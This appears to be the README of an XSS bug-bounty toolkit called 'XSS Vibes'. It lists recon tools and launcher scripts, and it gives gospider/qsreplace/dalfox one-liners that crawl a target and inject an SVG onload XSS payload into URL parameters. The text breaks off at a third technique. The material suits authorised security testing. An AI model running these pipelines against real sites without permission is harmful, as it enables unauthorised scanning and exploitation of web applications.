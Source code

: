 # XSS Vibes - OneLiners Arsenal 🔥

## Overview
This document describes the integration of popular bug bounty hunting oneliners with XSS Vibes' advanced GOD TIER techniques. We've combined community-proven methods with our cutting-edge obfuscation techniques.

## 🛠️ Available Tools
All tools are installed and ready to use:
- ✅ **subfinder** - Subdomain discovery
- ✅ **httpx** - HTTP toolkit
- ✅ **gospider** - Web crawler  
- ✅ **waybackurls** - Wayback machine URLs
- ✅ **gau** - Get All URLs
- ✅ **qsreplace** - Query string replacement
- ✅ **dalfox** - XSS scanner
- ✅ **kxss** - XSS parameter finder
- ✅ **gf** - Grep with patterns
- ✅ **hakrawler** - Web crawler
- ✅ **anew** - Append new lines
- ✅ **uro** - URL filtering
- ✅ **freq** - Frequency analysis
- ✅ **nuclei** - Vulnerability scanner

## 🚀 Quick Start Scripts

### 1. Interactive OneLiners Menu
```bash
./xss_oneliners.sh target.com
```
This launches an interactive menu with 10 different hunting techniques.

### 2. Python Automation
```bash
python3 xss_hunting_automation.py
```
Comprehensive automated hunting with parallel execution.

### 3. Advanced Integration
```bash
python3 oneliner_integration.py
```
Combines community techniques with GOD TIER payloads.

## 🎯 Hunting Techniques

### Gospider Techniques
```bash
# Technique 1: Basic + Dalfox
gospider -s "target.com" -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe

# Technique 2: SVG Payload
gospider -a -s target.com -t 3 -c 100 | tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'

# Technique 3: Script Alert with Verification
```
